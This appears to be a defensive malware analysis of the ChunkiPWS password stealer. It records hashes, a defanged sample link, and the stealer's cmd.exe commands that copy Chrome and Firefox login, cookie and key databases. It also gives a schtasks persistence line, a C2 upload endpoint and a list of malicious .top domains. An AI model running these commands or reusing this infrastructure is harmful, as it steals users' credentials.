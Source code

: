 # Observed malicious IOCs for Chunki Password Stealer aka (ChunkiPWS)

### Date of first occurrence

27-03-2022

### Description:

A victim watches a video and is lured into downloading a malicious installation package from mediafire.com.  When ChunkiPWS is executed, the password stealer collects credentials and gathers operating system and software information.  This information is then uploaded to a remote server using a POST request.  Persistence is as a scheduled task which periodically runs AutoIT scripts.  ChunkiPWS was named after its enormous size of its installation package.

### Sample Analysis
https://app.any.run/tasks/a5d03b82-b444-4849-b9ac-6a68a4a507b1/

### Malicious Installation Package

Sample download link to ChunkiPWS

```
https[:]//www.mediafire[.]com/file/xqj110ce9lm2vyu/Open__The__File__Setup.zip/fileapplication/zipapplication/
```

```
Installation Package:

File Name: Open__The__File__Setup.zip
Sha256Hash: a7ce9cd6cd40ff21ede8736327a95eb8f0ad193a943dd091c9d6ec91cc02bef2 

Decompressed Archive:

File Name: Install__Latest__Download.zip
Sha256Hash: ae68059ea44da06c59ee4c59dd616614aa9f59fa5b461ef0acbb94967e5f1b56

File Name: 'Password Is  =   1122.txt'

Decompressed Executable:

File Name: File__Setup.exe
File Size: 671M
Sha256Hash: 88b1fb836125454ac4c3553b3414a5a67096a105f5fd573a2822b84ee553bca5
```

### Obstacles

The file size of the ChunkiPWS is around 670-700 mb, making analysis quite difficult to perform.  Most sandbox platform can upload a maximum of 50-100mb in size.  Also, downloading the samples through EDRs was near impossible at times.

### Observed activity of `File__Setup.exe`

When executed, a single folder is created in the victim's temp directory.  The name of the folder is four random numbers.  For Example:

```
Directory names:

C:\users\<profile>\appdata\local\temp\2300
C:\users\<profile>\appdata\local\temp\4492
C:\users\<profile>\appdata\local\temp\5753
C:\users\<profile>\appdata\local\temp\5777
C:\users\<profile>\appdata\local\temp\7090
C:\users\<profile>\appdata\local\temp\8727
```

When a folder is created, a folder structure is created which is intended to collect and organize the collected information.

```
Directory Name 
---- 

_Brave 
_Chrome 
_Edge 
_Files 
_Firefox 
_Opera 
_Wallet 
_Information.txt 
_Screen_Desktop.jpeg
```

### Data Collection:

The following commands were executed to collect credentials, OS and Software information.

```
_Chrome 

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Web Data" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_webdata.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Login Data" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_logins.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Cookies" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_cookies.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Local\google\chrome\User Data\Default\Network\Cookies" "C:\Users\<profile>\AppData\Local\Temp\2300\_Chrome\default_cookies.db"
```

```
_Firefox

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\formhistory.sqlite" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\formhistory.sqlite"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\cookies.sqlite" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\cookies.sqlite"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\signons.sqlite" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\signons.sqlite"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\logins.json" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\logins.json"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\key3.db" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\key3.db"

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\AppData\Roaming\Mozilla\Firefox\Profiles/qldyz51w.default\key4.db" "C:\Users\<profile>\AppData\Local\Temp\2300\_Firefox\key4.db"
```

```
_Files

C:\Windows\system32\cmd.exe /c copy /Y "C:\Users\<profile>\Desktop\*.txt" "C:\Users\<profile>\AppData\Local\Temp\2300
```

```
_Information.txt

[OS, Local Date and Time, Username, CPU, RAM, GPU, Display Resolution]
```

```
_Screen_Desktop.jpeg

Screenshot of the desktop of the time of infection
```

### Persistence

A scheduled task is created to run AutoITv3 scripts. This portion of the analysis did not complete successfully, so I will need to do more research. 

```
schtasks /create /tn \Service\Diagnostic /tr """"C:\Users\<profile>\AppData\Roaming\ServiceGet\Tasuges.exe""" """C:\Users\<profile>\AppData\Roaming\ServiceGet\Tasuges.dat"""" /st 00:01 /du 
```

https://www.virustotal.com/gui/file/237d1bca6e056df5bb16a1216a434634109478f882d3b1d58344c801d184f95d/detection

### Exfiltration

Data is then zipped and uploaded to a C2 server via A POST request.

```
http[:]//sables23[.]top/index.php

data: Content-Disposition: form-data; name="file";filename="19696.zip"

19696.zip contains the exfiltrated data
```

### Related Domains Observed

```
5a5vmh.top
rnkj09.top
85kvie.top
vcev5c.top
hwh75t.top
rmgs2r.top
kzwor6.top
0m9rxw.top
63rx85.top
nn2ms2.top
n41n1a.top
pap44w.top
o08a6d.top
qor499.top
hezwde.top
bw9e2z.top
networksinform.top
utebcd.top
wwa4tu.top
uboys5.top
cno42s.top
bcjl1h.top
wonderworlddd.top
gotrustuni.top
e6in0v.top
bd7tlu.top
thyx30.top
o8hpwj.top
1bqroa.top
ibngww.top
dgjpgy.top
odmtu3.top
c6tjvl.top
va3ibn.top
sk8r54.top
zmn16h.top
kzhzuc.top
vbfyit.top
nngolodasz.top
rxmbsm.top
2gbbja.top
wrd4fo.top
httsps.top
305iot.top
3t3hyf.top
n80yab.top
vgxcci.top
5m2n7x.top
dmvute.top
ean5e7.top
kml2o2.top
859rkn.top
fapoergol.top
hookup4444.top
tsrwj3.top
laugk2.top
falloutgood.top
p3tt2t.top
4bx196.top
yl1wg6.top
kt70uk.top
gs2ka7.top
0cgaez.top
bvbg1l.top
p7k7t4.top
hometowergop.top
ac7zvz.top
lxvmhm.top
5p76tw.top
308an1.top
x9ap4h.top
glg1i0.top
ucrw57.top
r21wmw.top
06j7o0.top
```
